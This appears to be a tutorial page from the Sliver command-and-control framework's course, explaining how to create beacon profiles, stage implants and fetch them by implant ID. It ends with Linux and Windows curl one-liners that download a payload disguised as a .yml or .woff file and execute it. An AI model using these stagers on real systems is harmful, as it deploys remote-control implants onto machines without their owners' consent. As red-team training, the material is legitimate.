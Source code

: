 # This course is intended for the 1.6 version of Sliver, which is not yet published

When using Sliver during a live engagement, you’re going to need to use custom stagers, which are essentially a first binary or commandline that will retrieve and/or load Sliver into memory on your target system. Sliver can generate shellcode for your stager to execute by using the `profiles` command.

For this exercise, we will create a new beacon profile and prepare to stage it.

```asciinema
{"src": "/asciinema/create_profile.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

If you look at the generated implant, you'll notice the `ID` field has been populated. When downloading your payload from the staging server your URL needs to be in the form of:
```
https://sliver-ip/definitely/not/malware?x=yourID
```

There is a lot of flexibility in the form of this URL, the conditions for successful staging are:
* There has to be http url parameter containing the implant ID
* The digits found in the ID need to match an implant ID, if your implant ID is 1234, abcd1234, 12beu34 are all valid values

To expose a payload, you need to use the `implants stage` command and specifically select the implant to leave accessible.

```asciinema
{"src": "/asciinema/stage_implant.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

At this point we can try retrieving our implant. The ID is 19778.

```asciinema
{"src": "/asciinema/implant_curl.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

Sliver staging also supports encoding or encrypting our payloads before exposing them externally using the `profile stage` command, the implant configuration remains the same but you are now able to stage different versions of it simultaneously.

```asciinema
{"src": "/asciinema/stage_compress_encrypt.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

A simple stager could look like this, for example in Linux:

```
curl http://localhost/nothingtoseehere.yml?c=1234 --output nothingtoseehere && chmod u+x nothingtoseehere &&nohup ./nothingtoseehere
```

Or on Windows:
```
curl http://172.20.10.3/test.woff?a=29178 -o t.exe && .\t.exe
```
